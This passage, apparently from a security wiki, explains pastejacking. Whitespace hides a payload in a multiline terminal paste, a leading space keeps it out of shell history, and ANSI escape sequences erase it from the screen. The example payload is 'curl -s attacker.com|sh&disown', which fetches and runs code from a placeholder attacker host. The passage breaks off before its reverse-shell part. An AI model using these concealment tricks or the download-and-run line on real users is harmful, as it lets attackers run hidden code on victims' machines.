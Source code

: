 Another common action is copy-pasting commands from websites into your terminal. This has similar risks, and most terminals implement some warning to preview the multiple lines you are about to paste into it. A problem however is that it **cannot display all lines** and by adding lots of whitespace the user is required to manually scroll down to the hidden payload:

<figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1).png" alt="" width="400"><figcaption><p>Windows Terminal warning on multiline-paste</p></figcaption></figure>

If we just write some payload like a reverse shell at the end, there is a good chance the victim won't notice. After pasting it, however, it is very obvious that something malicious happened because the whole command history is right in front of them. And that's where [trick 2](https://en.wikipedia.org/wiki/ANSI_escape_code#CSI_\(Control_Sequence_Introducer\)_sequences) comes in!

* `\x1b[8A`: Move the cursor 8 lines up
* `\x1b[J`: Clear from the cursor to the end of the screen

These are two escape sequences that can be combined to reverse the cursor back to where the victim would expect, and then clear the payload commands quickly so the user might not ever notice they have been hit.&#x20;

In practice, you'll want to run the reverse shell in the background of course, and quickly so there is a minimal delay from triggering the payload. This can easily be accomplished by using `&` and `disown` to remove it from the list of background jobs. The server will host a larger payload as we try to keep the pasted text to a minimum:

<pre class="language-bash" data-title="Payload"><code class="lang-bash">echo some very long command nobody would want to type out
echo im sure nothing will happen if I just manually copy it





<strong> curl -s attacker.com|sh&#x26;disown
</strong> echo -e '\x1b[8A\x1b[J'

</code></pre>

If you notice above   spaces were added before the payload commands to also hide them from history (if the user were to press UP). Then the server will need to host a slightly special kind of reverse shell using `script` if you want it to be interactive:
